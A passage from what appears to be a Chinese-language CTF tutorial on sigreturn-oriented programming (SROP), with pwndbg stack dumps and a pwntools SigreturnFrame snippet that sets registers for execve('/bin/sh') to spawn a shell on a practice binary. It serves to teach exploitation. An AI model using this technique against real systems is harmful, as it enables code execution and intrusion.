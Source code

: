 调用rt_sigreturn后如下图所示：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1622452845737-41582dfd-9d60-4de2-ab5d-8ee7c1a91109.png)

```python
pwndbg> stack 50
00:0000│ rsi rsp  0x601000 (global_buf) ◂— 0x0 #pop
... ↓
0d:0068│          0x601068 (global_buf+104) —▸ 0x601100 (global_buf+256) ◂— 0x68732f6e69622f /* '/bin/sh' */ #pop rdi
0e:0070│          0x601070 (global_buf+112) ◂— 0x0
... ↓
12:0090│          0x601090 (global_buf+144) ◂— 0x3b /* ';' */ 												 #pop rax
13:0098│          0x601098 (global_buf+152) ◂— 0x0
... ↓
15:00a8│          0x6010a8 (global_buf+168) —▸ 0x400129 (main+65) ◂— syscall 
16:00b0│          0x6010b0 (global_buf+176) ◂— 0x0
17:00b8│          0x6010b8 (global_buf+184) ◂— 0x33 /* '3' */
18:00c0│          0x6010c0 (global_buf+192) ◂— 0x0
... ↓
1f:00f8│          0x6010f8 (global_buf+248) ◂— 'aaaaaaaa/bin/sh'
20:0100│          0x601100 (global_buf+256) ◂— 0x68732f6e69622f /* '/bin/sh' */
21:0108│          0x601108 (global_buf+264) ◂— 0x0
... ↓
pwndbg> 
```

当我们再次单步后就会得到一个shell；这里介绍一下pwntools中srop的简单使用方法，大致格式如下：

```python
# Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = elf.symbols['global_buf'] + str_bin_sh_offset
frame.rsi = 0
frame.rdx = 0
frame.rip = elf.symbols['syscall']
```

+ 调用pwnlib中的SigreturnFrame初始化frame
+ 然后对frame中的一些寄存器进行设置，如rax、rdi等，由于这里要获得一个shell，因此按照下图中设置即可：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1622455069201-ac27ea29-768e-4c3c-8ac8-1f40f035bac6.png)

因此在执行rt_sigreturn前的stack是这样的，这里需要注意的是并不需要布置rt_sigreturn在stack中，因为我们可以通过在程序的代码段中调用了它：

```python
pwndbg> x/gx 0x601000
0x601000 <global_buf>:	0x0000000000000000	0x0000000000000000
    					#uc_flags			#&uc
0x601010 <global_buf+16>:	0x0000000000000000	0x0000000000000000
    						#un_stack.ss_sp		#uc_stack.ss_flags
0x601020 <global_buf+32>:	0x0000000000000000	0x0000000000000000
    						#uc_stack.ss_size	#pop r8
0x601030 <global_buf+48>:	0x0000000000000000	0x0000000000000000re
    						#pop r9				#pop r10
0x601040 <global_buf+64>:	0x0000000000000000	0x0000000000000000
    						#pop r11			#pop r12
0x601050 <global_buf+80>:	0x0000000000000000	0x0000000000000000
    						#pop r13			#pop r14
0x601060 <global_buf+96>:	0x0000000000000000	0x0000000000601100
    						#pop r15			#pop rdi
0x601070 <global_buf+112>:	0x0000000000000000	0x0000000000000000
    						#pop rsi			#pop rbp
0x601080 <global_buf+128>:	0x0000000000000000	0x0000000000000000
    						#pop rbx			#pop rdx
```